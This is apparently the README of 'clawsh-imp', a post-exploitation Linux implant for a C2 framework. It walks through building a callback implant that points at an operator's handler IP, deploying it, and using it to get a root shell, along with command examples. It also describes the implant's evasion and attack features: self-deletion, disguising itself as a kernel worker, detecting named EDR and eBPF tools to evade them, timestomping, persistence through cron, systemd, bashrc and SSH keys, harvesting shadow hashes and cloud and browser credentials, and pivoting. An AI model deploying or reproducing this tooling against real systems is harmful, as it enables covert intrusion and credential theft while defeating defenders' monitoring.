



  <p align="center">                                                                                                                                                                                                               
    <h1 align="center">🦀 clawsh-imp</h1>                                                                                                                                                                                          
    <p align="center">                                                                                                                                                                                                             
      <strong>Lightweight Linux implant for the clawsh C2 framework</strong>                                                                                                                                                       
    </p>
    <p align="center">
      
      
      <a href="https://github.com/y0uall/clawsh"></a>
      <a href="https://github.com/y0uall/clawsh-proto"></a>
    </p>
  <p align="center">
    <a href="#quick-start">Quick Start</a> •
    <a href="#builder">Builder</a> •
    <a href="#features">Features</a> •
    <a href="#stealth">Stealth</a> •
    <a href="#recon">Recon</a> •
    <a href="#protocol">Protocol</a> •
    <a href="#license">License</a>
  </p>
</p>

---

> **v1.0.0** — Linux x86_64 — Binary release only — pairs with [clawsh](https://github.com/y0uall/clawsh) v1.0.3+

clawsh-imp is a post-exploitation implant for Linux targets. It connects back to a [clawsh](https://github.com/y0uall/clawsh) handler over an encrypted binary protocol, performs silent recon via raw syscalls, and provides a full interactive PTY shell — all from a ~1.7 MB static binary with no dependencies.

```
Binary:    ~1.7 MB  (stripped, LTO, opt-level z)
Platform:  Linux x86_64 / aarch64
Protocol:  X25519 ECDH → HKDF → ChaCha20-Poly1305
Auth:      HMAC-SHA256 (PSK)
Recon:     9 modules, 100% syscall-based (no process spawning)
Stealth:   Self-delete · argv[0] rewrite · EDR detection · decoy syscalls
```

## Screenshots







## Quick Start

### 1. Download

Grab the latest release files from the [Releases](../../releases) page:

```
clawsh-imp-template   — template binary (ready to patch)
builder.sh            — binary patcher (no Rust required)
SHA256SUMS.txt        — integrity checksums
```

### 2. Verify integrity

```bash
sha256sum -c SHA256SUMS.txt
# clawsh-imp-template: OK
# builder.sh: OK
```

### 3. Build your implant

`builder.sh` patches the template binary in-place. No compiler, no Rust, no source code needed.

```bash
chmod +x builder.sh

# Basic (TCP)
./builder.sh --host 10.10.14.5 --port 4444 --psk "your-secret"

# With TLS
./builder.sh --host 10.10.14.5 --port 443 --psk "your-secret" --tls

# Custom process disguise
./builder.sh --host 10.10.14.5 --port 443 --psk "your-secret" \
    --tls --disguise "[kworker/2:1-mm_percpu_wq]"

# Custom output path
./builder.sh --host 10.10.14.5 --port 443 --psk "your-secret" \
    --tls --output /tmp/update-daemon
```

### 4. Deploy

Copy the output binary to the target and execute. On first run it:

1. Decodes embedded config from memory
2. Deletes itself from disk (binary zeroed + unlinked)
3. Applies process disguise (argv[0] + thread name)
4. Scans for EDR/eBPF monitoring tools
5. Connects to your handler, performs authenticated handshake
6. Enters the beacon loop — awaiting tasks

### 5. Interact via clawsh

```bash
# On your machine
clawsh listen -p 443 --tls

# Once the implant connects:
clawsh> sessions
  Agents     Type    Remote Address         User@Host
  ─────────  ──────  ──────────────────────  ─────────────────
  agent-0    agent   10.10.10.5:4444        root@target

clawsh> use agent-0
[Attached to agent: root@target — type 'help' for commands]
agent(root@target)> recon sysinfo
agent(root@target)> recon privesc
agent(root@target)> recon credentials
agent(root@target)> shell
```

## Builder

`builder.sh` is a self-contained Python-based binary patcher. It locates the `CLAWCFG1` config blob embedded in the template binary and patches it with your operator-supplied values.

```
Usage: ./builder.sh --host HOST --port PORT --psk PSK [OPTIONS]

Required:
  --host HOST         Handler IP or hostname
  --port PORT         Handler port (1-65535)
  --psk  PSK          Pre-shared key passphrase

Optional:
  --tls               Enable TLS transport (default: off)
  --disguise NAME     Process disguise name (default: [kworker/0:1-events])
  --output PATH       Output binary path (default: ./implant)
  --template PATH     Template binary to patch (default: ./clawsh-imp-template)

Developer:
  --build-template    Build a new template binary from source (requires Rust)
```

The patcher requires only Python 3 (standard library, no pip packages). The output binary is immediately executable — SHA256 and size are printed after patching.

**Field limits:** host ≤ 63 chars · psk ≤ 63 chars · disguise ≤ 63 chars

## Features

### Interactive Shell

Full PTY shell with bidirectional I/O relay:

- `openpty()` allocates master/slave pseudo-terminal pair
- Child forks into `/bin/bash` (fallback `/bin/sh`) with clean environment
- Terminal resize (`TIOCSWINSZ`) forwarded via `ShellResize` messages
- Connection splits into reader/writer halves for concurrent I/O
- `HISTFILE` cleared — no shell history left on target

```
agent(root@target)> noise loud
[agent] Config update: ok
agent(root@target)> shell
[*] Interactive shell — Ctrl+D to detach
root@target:/# id
uid=0(root) gid=0(root) groups=0(root)
root@target:/# ^D
[Detached from agent shell]
agent(root@target)>
```

### File Transfer

Chunked bidirectional file transfer with integrity verification:

| Direction | Chunks | Integrity |
|-----------|--------|-----------|
| Upload (handler → target) | 512 KB chunks | CRC32 per-chunk + SHA256 whole-file |
| Download (target → handler) | 512 KB chunks | SHA256 verification before write |

### Persistence

4 fully reversible persistence methods — all using raw file I/O, no process spawning:

| Method | Scope | Mechanism |
|--------|-------|-----------|
| `cron` | root or user | `/var/spool/cron/crontabs/{user}` — `@reboot` + optional interval |
| `systemd` | root or user | `.service` unit file + `wants/` symlink (no `systemctl` required) |
| `bashrc` | user | Marker-delimited block in `~/.bashrc` with lock file guard |
| `sshkey` | user | Public key injection into `~/.ssh/authorized_keys` |

Persistence methods are installed and removed via the clawsh handler protocol. Records are tracked in-memory and automatically cleaned up on self-destruct.

### Pivoting & Tunneling

Protocol-level multiplexed TCP tunneling built into the implant:

- Local port forward: reach internal hosts through the implant
- Remote port forward: expose a local service on the target
- SOCKS5 proxy: dynamic tunnel for arbitrary TCP traffic

Multiple concurrent channels over a single C2 connection. Tunnel mode is activated from the clawsh handler using the `fwd` commands:

```
clawsh> fwd local 8080 10.10.10.100 80     # local forward → target network
clawsh> fwd socks 1080                     # SOCKS5 proxy (-D 1080)
clawsh> fwd list                           # active tunnels
```

### Builtin Commands

15 operator commands executed via raw syscalls — no `fork`, no `execve`, no visible child process:

| Command | Description |
|---------|-------------|
| `ls <path>` | Directory listing with permissions, owner, size |
| `cat <file>` | Read file contents |
| `pwd` | Current working directory |
| `whoami` | Username (UID → `/etc/passwd` lookup) |
| `id` | UID, GID, EUID, supplementary groups |
| `env` | Environment variables from `/proc/self/environ` |
| `cd <path>` | Change working directory (persistent for session) |
| `mkdir <path>` | Create directory (mode 0755) |
| `rm <path>` | Remove file |
| `rmdir <path>` | Remove empty directory |
| `mv <src> <dst>` | Move/rename with cross-filesystem fallback |
| `cp <src> <dst>` | Copy file (64 KB chunk loop, auto-resolves directory dst) |
| `touch <path> [ts]` | Create/update file timestamps; `touch -r <ref> <dst>` copies timestamps |
| `chmod <octal> <path>` | Change file permissions |
| `stat <path>` | File metadata: mode, uid/gid, size, atime/mtime/ctime |

`touch -r` copies nanosecond-precision timestamps from a reference file — useful for timestomping after file operations.

### Noise Level System

The handler controls the implant's operational noise level. Tasks exceeding the current level are rejected without execution:

| Level | Permitted | Blocked |
|-------|-----------|---------|
| **Silent** | `/proc`, `/sys`, `/etc` reads (syscalls only) | Network I/O, disk writes, process spawning |
| **Quiet** | + network reads, general file access | Process spawning |
| **Loud** | All operations | Nothing |

Recon modules and builtins run at **Silent** — they produce no child processes and generate no network traffic.

## Stealth

### Process Disguise

Three-layer process identity rewrite:

| Layer | Method | Visible in |
|-------|--------|------------|
| Thread name | `prctl(PR_SET_NAME)` | `/proc/self/comm`, `top`, `htop` |
| Command line | argv[0] via `/proc/self/mem` stack scan | `ps aux`, `/proc/self/cmdline` |
| Anti-debug | `prctl(PR_SET_DUMPABLE, 0)` | Blocks ptrace and core dumps |

Default disguise: `[kworker/0:1-events]` — indistinguishable from a kernel worker thread in `ps` and `top`.

### Self-Deletion

On startup (outside of `/target/` dev paths):

1. Binary size read via `fstat`
2. File opened and overwritten with null bytes (64 KB chunks)
3. `sync` — zeroes flushed to disk
4. `unlink` — inode freed

The process continues running from memory. `/proc/<pid>/exe` shows `(deleted)`. No forensic artifact remains on disk.

### EDR & eBPF Detection

Scans for 15 monitoring tools at startup and selects a timing profile automatically:

**eBPF-based (high threat):**
Falco · Aqua Tracee · Cilium Tetragon · Cilium Agent · bpftrace · Sysdig · Inspektor Gadget

**Legacy monitors:**
auditd · osquery · OSSEC · Wazuh · CrowdStrike Falcon · Carbon Black · Elastic Agent · Filebeat

**Kernel indicators:**
- Active kprobes: `/sys/kernel/debug/tracing/kprobe_events`
- Loaded eBPF programs: `/sys/fs/bpf`

| Profile | Delay | Recon scatter | Trigger |
|---------|-------|---------------|---------|
| Normal | 0–1 ms | 1 cycle | No monitors |
| Cautious | 5–50 ms | 4 cycles | Legacy monitors |
| Paranoid | 50–200 ms | 8 cycles | eBPF tools |

### Polymorphic Builds

Every template build generates a unique binary hash — even with identical parameters:

- Random 32-byte XOR key per build (encodes host/PSK/disguise in `.rodata`)
- Random 16-byte build nonce
- Random 64–256 byte padding

Config strings never appear in plaintext. Decoded briefly at runtime into heap memory, then overwritten on `SelfDestruct`.

### Decoy Syscalls

During sleep intervals, the implant emits cover-story syscalls matching its disguise:

| Disguise | Decoy activity |
|----------|---------------|
| `[kworker/*]` | `nanosleep` (100–900 µs), `epoll_wait` |
| `cron` | `stat` on `/var/spool/cron/*` |
| `systemd` | `stat` on `/run/systemd/*` |

Long sleeps are split into 5-second segments with decoys between them.

### Syscall Architecture

All file I/O uses direct Linux syscalls (`libc::syscall(SYS_*)`) instead of libc wrappers:

- Invisible to `LD_PRELOAD`-based monitors (no libc function hooking)
- `openat(O_NOATIME)` to suppress access-time updates on file reads
- `utimensat` to restore atime when `O_NOATIME` is unavailable

## Recon

9 reconnaissance modules — all **Silent** grade. No child processes, no network traffic, no disk writes.

| Module | Data collected |
|--------|----------------|
| `sysinfo` | Hostname, OS, kernel, architecture, CPU, memory, uptime, container type |
| `users` | Current UID/GID, login users, sudoers rules (NOPASSWD flagged), active sessions |
| `network` | Interfaces, listening ports, established connections, routes, DNS, ARP table |
| `processes` | Process tree with PID/UID/cmdline, interesting service detection (22 services), EDR detection |
| `filesystem` | Mounts, SUID/SGID binaries (44 GTFOBins), writable directories, sensitive files, capabilities |
| `container` | Docker/K8s/LXC/Podman detection, namespace comparison (7 types), escape vectors |
| `credentials` | Shadow hashes, SSH keys, history secrets (17 patterns), env secrets, cloud credentials (10 providers) |
| `privesc` | Kernel CVEs (DirtyCow, DirtyPipe, OverlayFS, StackRot, nf_tables), sudo vectors, PATH hijack, cron, privileged groups, writable sensitive files |
| `harvest` | DB configs (MySQL, PostgreSQL, Redis, MongoDB), web app configs (.env, wp-config.php, Django, Spring), K8s tokens, browser credentials, network credentials |

```
agent(root@target)> recon sysinfo
agent(root@target)> recon network
agent(root@target)> recon privesc
agent(root@target)> recon credentials
agent(root@target)> recon harvest
```

## Protocol

### Handshake

```
Implant                        Handler
  │                               │
  ├── Handshake ─────────────────>│  AgentInfo + HMAC(info, PSK) + Ephemeral PubKey
  │<──────────── HandshakeAck ────┤  SessionID + Config + Handler PubKey
  │                               │
  │   [X25519 ECDH → HKDF-SHA256 → Split Session Keys]
  │                               │
  ╠══ ChaCha20-Poly1305 ═════════>│  All subsequent messages
  │<═════════════════════════════>│  Min. 256 bytes padding per message
```

### Encryption Stack

| Layer | Algorithm | Purpose |
|-------|-----------|---------|
| Transport (optional) | TLS 1.3 | Connection encryption |
| Authentication | HMAC-SHA256 | PSK-based agent verification |
| Key exchange | X25519 ECDH | Ephemeral session keys |
| Key derivation | HKDF-SHA256 | Split encrypt/decrypt keys |
| Messages | ChaCha20-Poly1305 | Authenticated encryption per message |
| Traffic | 256B minimum padding | Length obfuscation |

### Wire Format

```
[4 bytes: frame length, big-endian]
[1 byte:  protocol version]
[1 byte:  message type]
[N bytes: bincode-serialized payload, ChaCha20-Poly1305 encrypted]
```

### Message Types

| Range | Category |
|-------|----------|
| `0x01–0x04` | Connection (Handshake, HandshakeAck, Heartbeat, HeartbeatAck) |
| `0x10–0x12` | Tasks (TaskRequest, TaskResponse, TaskOutput) |
| `0x20–0x23` | File Transfer (UploadStart, FileData, TransferComplete, DownloadRequest) |
| `0x40` | Modules (ModuleOutput) |
| `0x50–0x52` | Shell (ShellData, ShellResize, ShellClose) |
| `0x60–0x63` | Tunneling (TunnelOpen, TunnelData, TunnelClose, TunnelReady) |
| `0xF0–0xFF` | Control (SelfDestruct, SelfDestructAck, Error) |

## Reconnect & Self-Destruct

**Reconnect**: On connection failure, the implant sleeps with exponential backoff and jitter, emitting decoy syscalls during sleep. Maximum backoff is operator-configurable.

**Self-Destruct** (sent by handler):
1. Session ID zeroed
2. Config strings overwritten with `write_volatile` (compiler cannot optimize out)
3. Environment variables cleared
4. All installed persistence records removed
5. Process exits

## Requirements

**Target (implant):**
- Linux kernel ≥ 3.17 (for `memfd_create`)
- x86_64 or aarch64
- No runtime dependencies — fully static binary

**Operator machine (builder):**
- Python 3 (standard library only — no pip)
- `builder.sh` requires bash

**Handler:**
- [clawsh](https://github.com/y0uall/clawsh) v1.0.3+

## License

**Proprietary Software** — All Rights Reserved. See [LICENSE](LICENSE) for full terms.

This software is distributed as a pre-compiled binary. Source code is not included.

Permitted use:
- Personal use
- Educational purposes
- Authorized security testing and penetration testing engagements
- CTF competitions
- Defensive security research

You may **not** reverse engineer, redistribute, or create derivative works without written consent.

---

<p align="center">
  <sub>Built by uall</sub>
</p>
